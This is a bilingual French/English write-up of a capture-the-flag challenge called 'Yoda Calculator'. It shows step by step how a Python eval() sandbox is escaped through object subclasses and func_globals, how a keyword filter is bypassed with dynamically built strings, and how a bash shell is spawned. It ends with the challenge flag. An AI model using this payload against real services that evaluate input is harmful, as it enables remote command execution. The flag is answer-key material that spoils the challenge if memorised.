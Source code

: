 # Yoda Calculator

## Write-up FR

En se connectant avec `netcat`, on accède à une calculatrice interactive :
```python
1+1
>>> 2
1*2
>>> 2
1$&
>>> Error: invalid syntax (<string>, line 1)
```
Le message d'erreur suggère que le service exécute un `eval()` sur notre entrée.
On tente alors d’accéder aux objets internes de Python :
```python
()
>>> ()
().__class__
>>> <type 'tuple'>
```
En exploitant cela, nous essayons d'obtenir un shell en important `os`:
```python
().__class__.__bases__[0].__subclasses__()[59]
>>> <class 'warnings.catch_warnings'>
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[-5].__dict__
>>> {..., 'os': <module 'os' from '/usr/lib/python2.7/os.pyc'>, ...}
```
Nous avons accès au module os, mais il semble qu'un filtre bloque directement certains mots-clés : 
```python
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[-5].__dict__['os']
>>> Nope
```
Ce filtre étant simple, il est facile de le contourner en construisant dynamiquement les chaînes bloquées :
```python
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[-5].__dict__['o'+'s'].__dict__['SYSTEM'.lower()]('/BIN/BASH'.lower())
whoami 
yoda
ls /home/yoda/39101732858453
flag.txt
```

## Write-up EN

By connecting with netcat, we access an interactive calculator:
```python
1+1
>>> 2
1*2
>>> 2
1$&
>>> Error: invalid syntax (<string>, line 1)
```
The error message suggests that the service is using `eval()` on our input.
We then try to access Python's internal objects:
```python
()
>>> ()
().__class__
>>> <type 'tuple'>
```
By exploiting this, we try to get a shell by importing `os` :
```python
().__class__.__bases__[0].__subclasses__()[59]
>>> <class 'warnings.catch_warnings'>
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[-5].__dict__
>>> {..., 'os': <module 'os' from '/usr/lib/python2.7/os.pyc'>, ...}
```
We gain access to the `os` module, but it seems a filter blocks certain keywords :
```python
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[-5].__dict__['os']
>>> Nope
```
Since this filter is simple, it's easy to bypass by dynamically constructing the blocked strings :
```python
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[-5].__dict__['o'+'s'].__dict__['SYSTEM'.lower()]('/BIN/BASH'.lower())
whoami 
yoda
ls /home/yoda/39101732858453
flag.txt
```

## Flag

`polycyber{P4t13nc3_y0u_mu5t_h4v3_my_y0ung_P4d4w4n}`